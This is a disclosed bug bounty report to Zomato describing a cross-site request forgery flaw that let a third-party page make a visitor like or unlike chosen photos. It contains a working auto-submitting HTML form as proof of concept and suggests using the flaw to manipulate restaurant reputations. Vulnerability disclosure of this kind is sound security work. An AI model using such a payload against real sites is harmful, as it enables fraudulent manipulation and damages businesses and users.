 # CSRF To Like/Unlike Photos

## Report Details
- **Report ID**: 230837
- **URL**: https://hackerone.com/reports/230837
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-05-22T17:59:33.758Z
- **Disclosed**: 2017-06-30T04:51:38.579Z

## Reporter
- **Username**: pabster
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: zomato

## Vulnerability Information
Description:
There is a CSRF vulnerability allowing an attacker to trick a user into visiting his/her site and to forge a request to zomato.com that will in turn like or unlike the photos of the attacker's choosing.

The vulnerable page is https://www.zomato.com/php/photoViewerActionsHandler.php , which doesn't need a csrf token or anything like that in a POST request to like or unlike photos. The request looks like this: 
POST /php/photoViewerActionsHandler.php
Parameters: 
type = UNLIKE_PHOTO (Or LIKE_PHOTO)
photo_id = [photo id]

To get the photo id you just have to click on the photo you want the victim to like or unlike, then when you look at the url it should look something like: /es/photos/pv-res-18342981-r_2MzMzNTg1NzIwO      the last section will be /pv-res-[number]-[photo id]

Once you have the photo id you can perform the CSRF attack easily.

Steps to reproduce:
1. Deploy a webserver with an index.html file:

<form name="x" action="https://www.zomato.com//php/photoViewerActionsHandler.php" method="post">
<input type="hidden" name='type' value="LIKE_PHOTO">
<input type="hidden" name='photo_id' value="r_2MzMzNTg1NzIwO">
</form>
<script>document.x.submit();</script>

(Change the value attribute for the input tag with the name attribute of photo_id with the target photo's id and the input tag with the name attribute of type with UNLIKE_PHOTO if you want the victim to unlike a photo.
2. Get a victim to visit the webserver.

When done in large numbers you can easily get a photo to get 100's of likes. You can also damage a restaurant's reputation by using this attack to decrease their likes, and improve your own restaurant's reputation by using this attack to increase their likes.

Hope it helps.
Sincerely,
Pablo


## Attachments
No attachments
